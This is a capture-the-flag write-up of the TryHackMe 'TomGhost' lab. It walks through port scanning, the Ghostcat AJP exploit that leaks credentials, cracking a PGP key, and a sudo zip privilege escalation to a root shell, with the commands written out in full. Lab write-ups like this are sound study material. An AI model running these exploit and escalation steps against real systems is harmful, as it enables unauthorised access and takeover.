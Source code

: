 # TryHackMe
------------------------------------
### IP: 10.10.166.198
### Name: TomGhost
### Difficulty: Easy
--------------------------------------------------

![tomghost.jpeg](../assets/tomghost_assets/tomghost.jpeg)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:
```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.166.198  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-13 08:39 CDT
Nmap scan report for 10.10.166.198
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Looking for exploits against Apache jserv I find this ghostcat PoC: https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.py

### Exploitation

We can lauch the exploit with:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ python2 CVE-2020-1938.py 10.10.166.198 -p 8009 -f WEB-INF/web.xml
```

Which drops some credentials for us:

![tomghost_creds.png](../assets/tomghost_assets/tomghost_creds.png)

We can use these credentials to login via SSH:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ ssh skyfuck@10.10.166.198                           
The authenticity of host '10.10.166.198 (10.10.166.198)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.166.198' (ED25519) to the list of known hosts.
skyfuck@10.10.166.198's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ hostname
ubuntu
```

We can now grab the user.txt flag:

![tomghost_user_flag.png](../assets/tomghost_assets/tomghost_user_flag.png)

### Privilege Escalation

Browsing around the target we find a file called tryhackme.asc, which is a PGP key:

![tomghost_pgp.png](../assets/tomghost_assets/tomghost_pgp.png)

Trying to import and decrypt the key we see it is passphrase protected:

![tomghost_nope.png](../assets/tomghost_assets/tomghost_nope.png)

Lets transfer it over to our attacking machine and crack it with john by setting up a python http.server on the target:

```
skyfuck@ubuntu:~$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 ...
10.6.72.91 - - [13/Jul/2024 07:01:04] "GET /tryhackme.asc HTTP/1.1" 200 -
```

The using wget to download it locally:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ wget 10.10.166.198:1234/tryhackme.asc      
--2024-07-13 09:01:03--  http://10.10.166.198:1234/tryhackme.asc
Connecting to 10.10.166.198:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc                   100%[====================================================>]   5.02K  --.-KB/s    in 0s      

2024-07-13 09:01:03 (770 MB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

We can then use john to extract the hash from the PGP key:

![tomghost_john.png](../assets/tomghost_assets/tomghost_john.png)

Cool, now that we have the passphrase we can run:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: already in secret keyring
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

Then:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Which gives us merlin's password.

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can the `su merlin` with the password:

```
skyfuck@ubuntu:~$ su merlin 
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

Running `sudo -l` to see what merlin can run with elevated permissions we find:

```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Heading to gtfobins.com we can get the command we'll need to exploit this:

![tomghost_gtfo.png](../assets/tomghost_assets/tomghost_gtfo.png)

Lets run:

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Which drops us into a root shell.

We can now grab the final flag:

![tomghost_root_flag.png](../assets/tomghost_assets/tomghost_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

